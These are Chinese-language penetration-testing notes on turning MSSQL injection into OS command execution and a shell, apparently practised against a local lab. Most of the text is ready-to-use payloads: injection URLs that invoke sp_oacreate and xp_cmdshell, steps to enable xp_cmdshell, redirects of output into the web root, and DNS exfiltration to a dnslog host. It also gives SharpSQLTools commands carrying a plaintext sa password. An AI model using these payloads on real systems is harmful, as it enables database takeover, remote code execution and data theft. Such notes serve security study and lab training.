http://192.168.100.226/less-1.asp?id=1;declare @shell int exec sp_oacreate 'wscript.shell',@shell output exec sp_oamethod @shell,'run',null,'c:\windows\system32\cmd.exe /c whoami > 1.txt'

​​

http://192.168.100.226/1.txt

​​

### sp_oacreate/sp_oamethod调com组件命令执行

declare @luan int,@exec int,@text int,@str varchar(8000);exec sp_oacreate '{72C24DD5-D70A-438B-8A42-98424B88AFB8}',@luan output;exec sp_oamethod @luan,'exec',@exec output,'C:\windows\system32\cmd.exe /c whoami';exec sp_oamethod @exec, 'StdOut', @text out;exec sp_oamethod @text, 'readall', @str out;select @str;       //有因命令太长执行不成功的可能

## 扩展存储过程

扩展存储过程以xp开头，主要使用外部程序语言编写的存储过程。  
如：

1. xp_subdirs

    ​​
2. xp_fileexist

    ​​
3. xp_dirtree

    ​​
4. 利用xp\_cmdshell 写webshell

    ​​
5. xp\_cmdshell 执行命令   sql server 2005 版本以后默认关闭，需要开启后使用。

## xp_cmdshell拿shell

前提条件：  
1.当前用户拥有DBA权限 sa  
2.依赖于 xplog70.dll  
3.存储过程存在并已启用、

* #### 判断当前是否为DBA权限，返回1即为sysadmin

  http://192.168.100.226/less-2.asp?id=1;SELECT IS_SRVROLEMEMBER('sysadmin');​
* #### 查看是否存在xp_cmdshell，返回1则存在

  id=1' and 1=(SELECT COUNT(*) FROM master.dbo.sysobjects WHERE xtype='x' AND name='xp_cmdshell')--

  ​​
* #### 开启xp_cmdshell

  EXECsp_configure'showadvancedoptions',1;RECONFIGURE;EXECsp_configure'xp_cmdshell',1;RECONFIGURE;

  ​​
* #### 关闭xp_cmdshell

  http://192.168.100.226/less-1.asp?id=1';EXEC sp_configure 'show advancedoptions',1;RECONFIGURE;EXEC sp_configure 'xp_cmdshell',0;RECONFIGURE;--
* #### 查看是否禁用xp_cmdshell

  http://192.168.100.226/less-2.asp?id=0 union select 1,2,count(*) FROM master..sysobjects Where xtype = 'X' AND name = 'xp_cmdshell'--+
  ​

  id=1' and 1=(select count(*) from master.sys.sysobjects where name='xp_cmdshell')--+

  ​​

### xp_cmdshell+重定向

http://192.168.100.226/less-2.asp?id=1;exec master.sys.xp_cmdshell 'whoami > c:\inetpub\wwwroot\zhang.txt'--+

​​

### xp_cmdshell+DNS数据外带

http://192.168.100.226/less-1.asp?id=1';exec master.sys.xp_cmdshell 'ping -n 1 test.68ebfe53.log.dnslog.biz.'--+

​​

## 本地存储过程

本地存储过程指用户创建的自定义存储过程。如：CLR  
<span data-type="text" style="color: var(--b3-font-color8);">CLR,公共语言基础结构(Common Language Infrastructure)</span>,用来支持不同编程语言。sql server集成了该组件，可以通过sql server编写CLR来执行系统命令。  
此处本地新建存储过程相对复杂，直接利用工具SharpSQLTools进行实现。SharpSQLTools可实现上传下载文件，<span data-type="text" style="color: var(--b3-font-color8);">p_cmdshell与sp_oacreate双回显和clr加载程序集执行相应操作。</span>

## SharpSQLTools

SharpSQLTools.exe 192.168.100.225 sa ETsafe666 master enable_ole

​​

SharpSQLTools.exe 192.168.100.225 sa ETsafe666 master sp_oacreate whoami

​​

### sharpsqltool 利用CLR

SharpSQLTools.exe 192.168.100.225 sa ETsafe666 master install_clr

​​

SharpSQLTools.exe 192.168.100.225 sa ETsafe666 master enable_clr

​​

SharpSQLTools.exe 192.168.100.225 sa ETsafe666 master clr_exec whoami

​​

​​

​​

​​

## mssql注入拿shell的方法总结

在mssql中，拿shell的方法主要有

1. 使用xp_cmdshell来拿shell，但是要注意使用的条件，通过判断dba权限、判断是否存在cmdshell和开启cmdshell来利用。主要为：使用利用xp_cmdshell执行命令，并将输入重定向到<span data-type="text" style="color: var(--b3-font-color8);">web根文件</span>、以及DNS数据外带。
2. 使用sp_oacreate/sp_oamethod来执行系统命令，通过系统命令来执行命令并重定向文件到web根目录或直接写入shell文件到web根目录。
3. 直接使用SharpSQLTools工具。

‍

‍

‍
